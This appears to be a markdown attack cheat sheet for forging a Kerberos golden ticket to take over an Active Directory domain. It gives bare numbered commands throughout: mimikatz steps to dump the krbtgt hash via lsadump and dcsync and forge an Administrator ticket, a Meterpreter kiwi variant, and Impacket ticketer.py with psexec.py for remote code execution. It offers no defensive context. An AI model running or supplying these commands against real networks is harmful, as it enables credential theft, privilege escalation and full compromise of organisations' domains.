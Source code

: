 # GOLDEN TICKET

## Dump krbtgt hash to own the entire domain!

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:krbtgt

#### 4) lsadump::lsa /patch

#### 5) lsadump::trust /patch

#### 6) lsadump::dcsync /user:krbtgt

#### 7) kerberos::purge

#### 8) kerberos::golden /user:Administrator /domain:domain.local /sid:SID /krbtgt:NTLM HASH /id:500(Admin) or 1103(Service)

#### 9) kerberos::tgt

#### 10) misc::cmd

## Alternate method: Meterpreter shell

### Get information for golden ticket

#### 1) dcsync_ntlm krbtgt

#### 2) dcsync krbtgt

### Forge a Golden Ticket

#### 3) load kiwi

#### 4) golden_ticket_create -d DOMAIN_NAME -k NTLM_HASH_OF_KRBTGT -s SID -u Administrator

#### 5) kerberos_ticket_purge

#### 6) kerberos_ticket_use /root/Downloads/Administrator.tck

#### 7) kerberos_ticket_list

### Authenticate with psexec impacket (Linux)

#### 8) ./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100

## Alternate Method: Impacket Ticketer

#### 1) python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus

#### 2) export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache

#### 3) python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
